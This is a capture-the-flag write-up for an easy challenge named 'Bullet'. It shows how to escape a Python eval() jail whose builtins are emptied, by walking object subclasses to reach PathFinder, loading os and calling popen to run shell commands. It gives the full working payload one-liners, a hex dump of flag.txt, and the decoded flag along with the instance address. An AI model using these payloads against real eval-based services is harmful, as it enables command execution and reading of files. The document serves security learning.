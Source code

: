 ```
                    ▗▄▄▖ █  ▐▌█ █ ▗▞▀▚▖   ■  
                    ▐▌ ▐▌▀▄▄▞▘█ █ ▐▛▀▀▘▗▄▟▙▄▖
                    ▐▛▀▚▖     █ █ ▝▚▄▄▖  ▐▌  
                    ▐▙▄▞▘     █ █        ▐▌  
                                         ▐▌  
```

**Category:** MISC
**Level:** Easy
**Instance:** `nc 34.252.33.37 32034`
> Bullet: Where your Python commands are like boomerangs—throw them carefully, or they'll come back to bite you!

**Flag:** FlagY{b0f90142f8098411057bd5237991cb1b}

# WHAT EVEN IS THIS

A tiny interactive Python server asks us to type an expression and then lovingly `eval()`s it for us:

```python
# server.py
print("Welcome to Bullet!")
print("Goal: Can you execute commands?")

while True:
    try:
        user_input = input(">>> ")
        result = eval(user_input, {"__builtins__": {}})
        print("Result:", result)
    except Exception as e:
        print("Error:", e)
```

Our mission: make the server run shell commands and reveal the flag.

# WHY THIS IS A PROBLEM (TL;DR)

`eval()` with `{"__builtins__": {}}` looks like a prison cell for our code. But Python's object model has windows and those windows have ladders. By poking `().__class__.__mro__` and its subclasses we can find import machinery (hello `PathFinder`), use it to build an os module object, and then ask `os.popen()` to execute a shell command. ***Boom: command execution.***

# SOLUTION

First things first, we need to check which classes are available.

```python
>>> [i.__name__ for i in ().__class__.__mro__[1].__subclasses__()][:200]
Result: ['type', 'async_generator', 'bytearray_iterator', 'bytearray', 'bytes_iterator', 'bytes', 'builtin_function_or_method', 'callable_iterator', 'PyCapsule', 'cell', 'classmethod_descriptor', 'classmethod', 'code', 'complex', 'Token', 'ContextVar', 'Context', 'coroutine', 'dict_items', 'dict_itemiterator', 'dict_keyiterator', 'dict_valueiterator', 'dict_keys', 'mappingproxy', 'dict_reverseitemiterator', 'dict_reversekeyiterator', 'dict_reversevalueiterator', 'dict_values', 'dict', 'ellipsis', 'enumerate', 'filter', 'float', 'frame', 'FrameLocalsProxy', 'frozenset', 'function', 'generator', 'getset_descriptor', 'instancemethod', 'list_iterator', 'list_reverseiterator', 'list', 'longrange_iterator', 'int', 'map', 'member_descriptor', 'memoryview', 'method_descriptor', 'method', 'moduledef', 'module', 'odict_iterator', 'PickleBuffer', 'property', 'range_iterator', 'range', 'reversed', 'symtable entry', 'iterator', 'set_iterator', 'set', 'slice', 'staticmethod', 'stderrprinter', 'super', 'traceback', 'tuple_iterator', 'tuple', 'str_iterator', 'str', 'wrapper_descriptor', 'zip', 'GenericAlias', 'anext_awaitable', 'async_generator_asend', 'async_generator_athrow', 'async_generator_wrapped_value', '_buffer_wrapper', 'MISSING', 'coroutine_wrapper', 'generic_alias_iterator', 'items', 'keys', 'values', 'hamt_array_node', 'hamt_bitmap_node', 'hamt_collision_node', 'hamt', 'InstructionSequence', 'legacy_event_handler', 'line_iterator', 'managedbuffer', 'memory_iterator', 'method-wrapper', 'SimpleNamespace', 'NoneType', 'NotImplementedType', 'positions_iterator', 'str_ascii_iterator', 'UnionType', 'CallableProxyType', 'ProxyType', 'ReferenceType', 'TypeAliasType', 'NoDefaultType', 'Generic', 'TypeVar', 'TypeVarTuple', 'ParamSpec', 'ParamSpecArgs', 'ParamSpecKwargs', 'EncodingMap', 'fieldnameiterator', 'formatteriterator', 'BaseException', '_WeakValueDictionary', '_BlockingOnManager', '_ModuleLock', '_DummyModuleLock', '_ModuleLockManager', 'ModuleSpec', 'BuiltinImporter', 'FrozenImporter', '_ImportLockContext', '_ThreadHandle', 'lock', 'RLock', '_localdummy', '_local', 'IncrementalNewlineDecoder', '_BytesIOBuffer', '_IOBase', 'ScandirIterator', 'DirEntry', 'WindowsRegistryFinder', '_LoaderBasics', 'FileLoader', '_NamespacePath', 'NamespaceLoader', 'PathFinder', 'FileFinder', 'AST', 'Codec', 'IncrementalEncoder', 'IncrementalDecoder', 'StreamReaderWriter', 'StreamRecoder', '_abc_data', 'ABC', 'Hashable', 'Awaitable', 'AsyncIterable', 'Iterable', 'Sized', 'Container', 'Buffer', 'Callable', '_wrap_close', 'Quitter', '_Printer', '_Helper']
```

The code spits out a LOT of class names, including `PathFinder` and module. Those are our hooks. So from there, we devise a payload that loads `os` and runs `ls -la`. Hell man, we need to know where `flag.txt` is.

Basically, this payload (1) scan subclasses for PathFinder, (2) build a bare module object, (3) use `PathFinder.find_spec('os')` to get a loader spec for `os`, (4) `exec_module(mod)` fills the `module` object with the real `os` functions, and (5) `mod.__getattribute__('popen')('sh -c '+cmd).read()` runs `cmd` in a shell and reads the output.

```python
>>> (lambda PF, MT, cmd: (lambda spec: (lambda mod: (spec.loader.exec_module(mod), mod.__getattribute__('popen')('sh -c '+cmd).read())[1])(MT('os')))(PF.find_spec('os')))([c for c in ().__class__.__mro__[1].__subclasses__() if c.__name__=='PathFinder'][0],[c for c in ().__class__.__mro__[1].__subclasses__() if c.__name__=='module'][0],'ls -la')
Result: flag.txt
run
server.py
```

***STOP!*** I know where your head went. You can't use `cat` or any of the alternatives because the server will choke. Don't believe me? Try it.

![i-triple-dog-dare-you](/assets/images/i-triple-dog-dare-you.gif)

It took me quite a while and lots and lots of trial-and-errors to get to the revelation of using hex dump.

```python
>>> (lambda PF, MT, cmd: (lambda spec: (lambda mod: (spec.loader.exec_module(mod), mod.__getattribute__('popen')('sh -c '+cmd).read())[1])(MT('os')))(PF.find_spec('os')))([c for c in ().__class__.__mro__[1].__subclasses__() if c.__name__=='PathFinder'][0],[c for c in ().__class__.__mro__[1].__subclasses__() if c.__name__=='module'][0],"printf '%.64s' \"\" > /dev/null; (command -v xxd >/dev/null 2>&1 && xxd -l64 flag.txt) || (od -An -tx1 -N64 flag.txt 2>/dev/null || true)")
%.64s: 1: printf: usage: printf format [arg ...]
Result:  46 6c 61 67 59 7b 62 30 66 39 30 31 34 32 66 38
 30 39 38 34 31 31 30 35 37 62 64 35 32 33 37 39
 39 31 63 62 31 62 7d 0a
```

From there, your road is easy.

```bash
> echo '46 6c 61 67 59 7b 62 30 66 39 30 31 34 32 66 38 30 39 38 34 31 31 30 35 37 62 64 35 32 33 37 39 39 31 63 62 31 62 7d 0a' | tr -d ' \n' | xxd -r -p

FlagY{b0f90142f8098411057bd5237991cb1b}
```

![well-hello-beautiful](/assets/images/well-hello-beautiful.gif)